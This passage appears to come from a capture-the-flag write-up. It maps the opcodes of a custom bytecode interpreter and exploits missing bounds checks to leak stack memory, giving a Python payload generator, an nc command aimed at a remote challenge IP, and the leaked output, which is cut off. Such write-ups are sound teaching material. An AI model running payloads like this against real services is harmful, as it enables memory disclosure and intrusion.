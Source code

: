     struct {
        opcode opcodes[1000];
        short mem[7];
        short pc;  // program counter
        short ic;  // executed instructions counter
    }

After closer analysis, the individual opcodes map out like this:

    opcode | function
    -------|------------------------------
    0x10   | mem[arg1] = arg2
    0x11   | mem[arg1] = mem[arg2]
    0x12   | mem[arg1] ^= arg2
    0x30   | mem[arg1] <<= arg2
    0x31   | mem[arg1] >>= arg2
    0x40   | mem[arg1] += arg2
    0x41   | mem[arg1] += mem[arg2]
    0x49   | mem[arg1] |= arg2
    0x50   | mem[arg1] &= arg2
    0x51   | mem[arg1] &= & mem[arg2]
    0x60   | flag = mem[arg1] == arg2
    0x61   | flag = mem[arg1] == mem[arg2]
    0xa5   | printf("%04x\n", mem[arg1])
    0xa6   | putchar(0x0a)
    0xbb   | if(flag == 1) jump arg2
    0xbc   | jump arg2
    0xc0   | exit(-1)
    0xde   | return 0
    0xfe   | read(program + 0x3f00, 0x100)

Now, with all functionality mapped, what can we do to break it?

## Exploitation

When accessing the memory, arg1 and arg2 aren't bounds checked so let's see if we can see anything interesting from the stack. We create a program for the interpreter that leaks everything from mem[10] to mem[255] and then calls the 0xfe opcode (which we can easily catch in gdb by catching the read syscall).

    #!/usr/bin/env python
    from pwny import *
    with open('candyflood', 'wb') as f:
      f.write(b''.join(pack('<BBH', 0xa5, i, 0) for i in range(10,256)))
      f.write(pack('<BBH', 0xc0,0,0))

Feeding that to the remote service using netcat (nc 52.16.33.218 22226 < candyflood) shows something along the lines of:

    Herro.
    INPUT PROGRAM:
    READ 92 BYTEZ..
    7fff
    0000
    2f52
    f7a8
    7fff
    0000
    e440
    ffff
    7fff
    0000
    52fa
    5555
    5555
    0000